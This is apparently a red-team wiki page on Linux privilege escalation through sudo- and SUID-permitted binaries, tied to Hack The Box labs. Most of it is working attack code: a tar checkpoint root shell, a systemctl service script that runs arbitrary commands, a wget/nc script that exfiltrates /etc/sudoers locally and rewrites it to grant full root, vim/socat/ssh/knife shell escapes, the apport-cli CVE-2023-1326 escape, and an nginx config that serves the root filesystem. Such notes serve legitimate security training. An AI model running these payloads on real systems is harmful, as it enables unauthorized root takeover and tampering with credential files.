 # GTFOBins

<div class="row row-cols-lg-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (9.5k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#suidguid-bit)
* [Binary was given capabilities](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#capabilities)
* [User was granted sudo permission to binary](/cybersecurity/red-team/s4.privesc/linux/topics/sudo.md)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) (0.2k ⭐) for offline browsing.

➡️ You may need/want to create a [root bash](/cybersecurity/red-team/s4.privesc/linux/utils/rootbash.md).
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash!
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>

<hr class="sep-both">

## Random Payloads

<div class="row row-cols-lg-2"><div>

If we are allowed to run a command as sudo:

* Common commands

```ps
$ sudo vim -c ':!/bin/sh'
$ sudo socat stdin exec:/bin/bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

* [apport-cli](https://manpages.ubuntu.com/manpages/focal/en/man1/apport-cli.1.html) 2.26.0 and earlier has a vulnerability ([CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)) 

[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

```ps
$ sudo /usr/bin/apport-cli --file-bug
> 1
> 2
> F # any key
> V # view report (open less)
:!/bin/bash
```

* `/usr/bin/systemctl status xxx.service`

[![attacking_common_applications](../../../../_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

While it may be secure, if a reader is opened, such as `less`, it may be leveraged to run commands e.g. using `!/bin/bash` for `less`.
</div><div>

* `/usr/bin/knife`: [knife](http://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html) can be exploited in many ways

[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

```ps
$ sudo knife environment edit _default -e vim # -> sudo vim
$ sudo knife environment edit _default -e rootbash.sh
$ sudo knife exec --exec "exec '/bin/sh -i'"
$ echo -n 'exec "/bin/bash -i"' > config.rb
$ sudo knife user list -c config.rb
```

* `nginx` can be used to read files. It may also be used to write files using `dav_methods PUT;`. For instance, adding an entry in authorized keys or sudoers.

[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!
$ cat $(pwd)/test.conf
user root;
events {
    worker_connections 768;
}
http {
    server {
       listen 80;
        server_name  pwned.test;

        location / {
            root /;
            autoindex on; 
        }
    }
}
$ sudo nginx -s stop
$ sudo nginx -c $(pwd)/test.conf
```
</div></div>